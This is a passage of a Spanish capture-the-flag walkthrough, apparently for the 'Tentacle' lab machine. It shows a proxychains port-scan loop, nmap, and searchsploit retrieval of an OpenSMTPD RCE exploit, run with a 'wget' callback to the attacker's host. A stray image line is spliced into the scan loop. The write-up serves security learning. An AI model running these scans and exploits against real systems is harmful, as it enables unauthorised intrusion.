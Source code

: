 ```bash
        for i in $(seq 1 254); do
![Tetacle-wad-dat](/assets/images/Tentacle-wpad-dat.png) 
            proxychains -q timeout 1 bash -c "echo '' > /dev/tcp/10.241.251.$i/$port" 2>/dev/null && echo "[+] $port - OPEN on host $i" &
        done; wait
done; 
```

lanzando el script vemos algo que nos llama la atencion que es el puerto 25 abierto en el host 10.241.251.113. Lanzamos nmap para saber la version
y servicio que corre para este puerto.

```bash
proxychains nmap -sT -Pn -p25 -sCV 10.241.251.113
```

Podemos ver que es un **OpenSMTPD 2.0.0**
## Vulnerability Assessment {-}

### OpenSMTPD 2.0.0 {-}

Buscamos si existe exploit para este servicio

```bash
searchsploit opensmtpd
```

vemos que existe un exploit de typo RCE para la version 6.6.1. Como tenemos la version 2.0.0 pensamos que se puede utilizar.

```bash
searchsploit -m 47984
mv 47984.py smtpd-exploit.py
cat smtpd-exploit.py
```

Viendo el codigo vemos que necessita una ip un puerto y un commando. Vemos que utilza un servicio mail para enviar el comando
a un recipiant que es root. Intentamos lanzarlo tal cual.

1. Nos creamos un servidor web con python

    ```bash
    python -m http.server 80
    ```

1. Lanzamos el script con proxychains

    ```bash
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.29'
    ```


Aqui vemos que no funcciona. puede ser porque el usuario root de este servicio no existe. Recordamos que hemos encontrado un email.
Tratamos de modificar el recipient para cambiar el root por j.nakazawa. Como el puerto 88 esta abierto primero utilizamos kerbrute para saber
si el usuario j.nakazawa existe.
